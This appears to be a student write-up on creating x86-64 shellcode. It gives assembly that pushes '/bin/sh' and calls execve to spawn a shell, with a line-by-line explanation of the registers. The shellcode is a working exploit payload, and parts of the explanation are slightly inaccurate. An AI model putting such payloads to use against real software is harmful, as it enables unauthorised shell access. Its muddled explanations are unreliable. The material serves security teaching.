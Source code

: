 ## ShellCode Creation
# A code block containing your assembly instructions for your shellcode 
```
.text
.global _start
_start:
	movabsq $0x68732f6e69622f2f, %rax /* move 64 bits into rax */
	shr $8, %rax /* remove null terminators by shifting down 8 bits */
	pushq %rax /* push the above -> stack /bin/sh\0 [1st arg] */
	
	/* rdi holds 1st arg of func */
	/* pointer to path to be executed */
	movq %rsp, %rdi /* /bin/sh to rdi */
	
	/* rsi holds 2nd arg of func array of command line args */
	/* array of command line args to pass */
	xorq %rax, %rax /* set to 0 */
	pushq %rax /* push null terminator -> stack */
	pushq %rdi /* push /bin/sh -> stack */
	movq %rsp, %rsi /* point (mov) /bin/sh to rsi */
	
	/* rdx 3rd arg of env var */
	/* no environment variables to pass */
	movq %rax, %rdx /* set to 0 */
	
	addq $0x3b, %rax /* move execve into rax */
	
	syscall
	
	leave
	ret
	
```


# A step-by-step explanation of your assembly code and how it sets up the system call 
To execute : execve (char *pathname, char **argv, char **envp) 

pathname : /bin/sh	|	argv : [ /bin/sh, NULL] 	| 	envp : NULL

execve id = 59 [ 0x3b ]

	RAX | 0x3B
	RDI | bin/sh_addy
	RSI | null_addy
	RDX | null_addy
					
movabsq is used to push the 64 bit 2F 2F 62 69 6e 2F 73 68 00 : "//bin/sh" and saved into the rax register. 

Completing the first argument: To get rid of null termiantors we shifted 8 bits to the right using shr and push that value into rax

Completing the second argument: requires filename associated w/ file, and a NULL pointer. 
rax receives the null and rdi the filename. pointer is then moved to rsi

Completing the third argument:requires the environment variables. Since we are passing nothing we also set this to a null terminator. This is dueable since rax was xorq

addq is then used to put together execve and the arguments that were set up (this is found in the rax register). This will be used to execute the execve when the syscall is done. 


# Report how many bytes total are in your assembly, and include the whole thing in ascii 
![image](https://user-images.githubusercontent.com/89425242/234662767-a9b29b07-8cbc-446d-b976-502687ea6c6b.png)


